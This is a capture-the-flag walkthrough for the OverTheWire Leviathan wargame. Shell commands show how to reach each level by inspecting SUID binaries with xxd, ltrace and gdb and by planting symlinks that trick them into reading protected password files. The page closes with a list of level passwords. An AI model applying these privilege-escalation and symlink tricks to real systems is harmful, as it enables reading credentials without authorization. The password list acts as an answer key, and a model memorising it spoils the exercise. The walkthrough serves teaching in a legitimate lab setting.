


# Leviathan - Level Beginner/Intermediate



**Leviathan Wargame** is a beginner-to-intermediate level Capture The Flag challenge designed to teach fundamental Linux security concepts, debugging, and binary exploitation techniques. Participants solve a series of progressively difficult puzzles involving file permissions, symbolic links, debugging tools, and reverse engineering. It’s a practical and hands-on way to sharpen skills in system security and command-line mastery.

**Official Website:** [OverTheWire - Leviathan](https://overthewire.org/wargames/leviathan/)

> **Note:** Please don't copy or jump to solutions. This page is designed for people who are not able to figure it out even after spending quite a lot of time.

> **AI WARNING:** AI has not been used to solved any of the level however, It has been used to format and rewrite my description to a professional tone and spellcheck.

## Level 0

In this level, I was only provided with the password for level 0. After logging in, I explored the home directory and discovered a hidden folder named .backup. Inside it, there was a single file: bookmarks.html.

To get a sense of the file’s size, I used the wc command. Since the file was quite long, I opted not to use more or cat for manual inspection. Instead, I piped the file into grep using the keyword password—and it paid off. The password was stored as a comment within the HTML:

```bash
ll
cd .backup
wc bookmarks.html
cat bookmarks.html | grep password
```

## Level 1

Upon logging in, I reviewed the provided files and found a binary named check. Using the ll command, I noticed that the file was owned by user leviathan2 and group leviathan1, suggesting it could be used to escalate privileges.

Since the file had a large number of lines, I used xxd (alternatively, hexdump -C also works) to view its contents in a hex/ascii format. While analyzing the output, I noticed a readable pattern that hinted at the correct password.

Upon entering the correct input, the binary launched a new shell (/bin/sh). I confirmed this by running whoami, which showed I was now operating as leviathan2. From there, I was able to retrieve the password:

```bash
ll
wc ./check
./check
xxd ./check
./check
whoami
cat /etc/leviathan_pass/leviathan2
```

## Level 2

Similar to earlier levels, this one provides a SUID binary owned by leviathan3. Running the binary revealed that it expects a filename as an argument. Naturally, I attempted to pass in /etc/leviathan_pass/leviathan3 directly, but received an “access denied” message.

Suspecting that there was more going on under the hood, I used ltrace to inspect the binary's behavior when reading a file like .bashrc. This worked, which suggested the program might be using fopen() or similar calls that can be manipulated.

To exploit this, I created a symlink pointing to the actual password file but gave it a different name that the program would allow. This tricked the binary into reading the password file indirectly. I received a bit of help from [this guide](https://mayadevbe.me/posts/overthewire/leviathan/level2/), which confirmed my approach:

```bash
ll
./printfile
./printfile /etc/leviathan_pass/leviathan3
ltrace ./printfile .bashrc
mktemp -d
chmod 777 /tmp/tmp.CAsNwwgmWF
ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.CAsNwwgmWF/fetch
touch /tmp/tmp.CAsNwwgmWF/"fetch password"
./printfile /tmp/tmp.CAsNwwgmWF/"fetch password"
```

## Level 3

This level follows a similar pattern to the previous one. After examining the SUID binary using ltrace, I observed that it uses strcmp() to compare a password entered at runtime. Since the correct password is hardcoded in the binary, it validates the input and grants a shell if the comparison succeeds.

Running the program with the correct input spawned a new shell under the leviathan4 user. From there, I verified the user identity and retrieved the next level's password:

```bash
ll
./level3
ltrace ./level3
./level3
$> whoami
$> cat /etc/leviathan_pass/leviathan4
```

## Level 4

After logging in, I discovered a hidden directory named .trash, which contained a binary named bin with the SUID bit set for user leviathan5.

Executing the binary produced a string of binary digits. This output represented the password encoded in binary. I copied the output and converted it to ASCII—either manually or using a simple Python script—to obtain the password for the next level:

```bash
ll
ll ./.trash
./.trash/bin
```

## Level 5

As with previous levels, we are provided with a binary named leviathan5, which has its effective UID set to leviathan6. Running the binary initially resulted in an error related to a missing file: /tmp/file.log.

This suggested that the binary attempts to read from or write to that file. To exploit this, I created a symbolic link pointing /tmp/file.log to the actual password file for leviathan6. When the binary was executed again, it followed the symlink and revealed the password:

```bash
ll
./leviathan5
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
./leviathan5
```

## Level 6

This level provides a binary called leviathan6 running with the user ID of leviathan7. The binary asks for a 4-digit PIN to proceed. Using ltrace did not reveal the PIN, so I used [gdb](/tools/gdb.md) to debug the binary at a low level. By disassembling the main function and inspecting memory at a breakpoint, I was able to find the correct PIN. After that, running the program with the discovered PIN gives access to the next password.

```bash
ll
ltrace ./leviathan6
gdb --args ./leviathan6 1234
(gdb) disas main
(gdb) break *main+84
(gdb) run
(gdb) info registers
(gdb) print $ebp-0xc
(gdb) x 0xffffd36c   # We get the code: 7123
(gdb) q
./leviathan6 7123
whoami
cat /etc/leviathan_pass/leviathan7
```

## Level 7

Game Ends Here!! We Did It :)



## Passwords

> Note: Password are changed periodically. They are latest as of Jun 11, 2025

- Level 0: `leviathan0`
- Level 1: `3QJ3TgzHDq`
- Level 2: `NsN1HwFoyN`
- Level 3: `f0n8h2iWLP`
- Level 4: `WG1egElCvO`
- Level 5: `0dyxT7F4QD`
- Level 6: `szo7HDB88w`
- Level 7: `qEs5Io5yM8`
